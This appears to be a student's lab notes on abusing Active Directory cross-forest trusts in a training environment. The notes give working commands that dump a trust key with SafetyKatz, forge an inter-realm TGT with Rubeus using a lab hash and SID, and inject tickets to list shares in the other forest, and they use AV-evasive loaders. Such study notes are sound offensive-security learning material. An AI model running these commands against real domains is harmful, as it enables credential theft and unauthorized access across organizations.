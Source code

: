 ### Abuse

> [!NOTE] **IMPORTANT**
>**Unfortunately, we can only access resources that are explicitly shared by the trusting forest. This is due to the forest level being the security boundry and not the domain. Along with this the external forest DC will strip the `sIDHistory` of your ticket to make sure privileges aren't escalated**
>a
>The only way to enumerate resources on machines within a different forest is by forging a TGT for **each** machine (`cifs/ext-admin1.eurocorp.local`) then using `net view` to view whats shared

If you have Domain or Enterprise Admin in one forest you can pretty much automatically compromise an external forest.

Obtain Trust Key (as DA)
```powershell
SafetyKatz.exe "lsadump::evasive-trust /patch"

.\Loader.exe -path .\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\ecorp$" "exit"

SafetyKatz.exe "lsadump::lsa /patch"
```

Forge an inter-realm TGT
```powershell
.\Loader -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:2aa239e4140375cf03be3d57f889278e /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                   |
| ------------------- | ------------------------------------------------------------- |
| silver              | Name of the module                                            |
| /rc4                | NTLM hash of the trust key                                    |
| /sid                | SID of the current domain                                     |
| /sids               | SID of the **enterprise admins** group of the external Forest |
| /ldap               | Retrieve PAC information from the current domain DC           |
| /user:Administrator | Username for which the TGT is generated                       |
| /nowrap             | No newlines in the output                                     |

Use forged ticket to view possible file shares
```powershell
.\Loader -path .\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

Test - **THIS WILL HAVE TO BE DONE ON ALL MACHINES IN AN EXTERNAL FOREST**
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

> [!NOTE] **NOTE**
> Same as cross domain trust functionality, where the trusting DC only checks if it can decrypt the ticket using the **Trust Key** that both DCs have

![[Pasted image 20250519115856.png]]
### Cross Forest Kerberos Functionality
![[Pasted image 20250519115832.png]]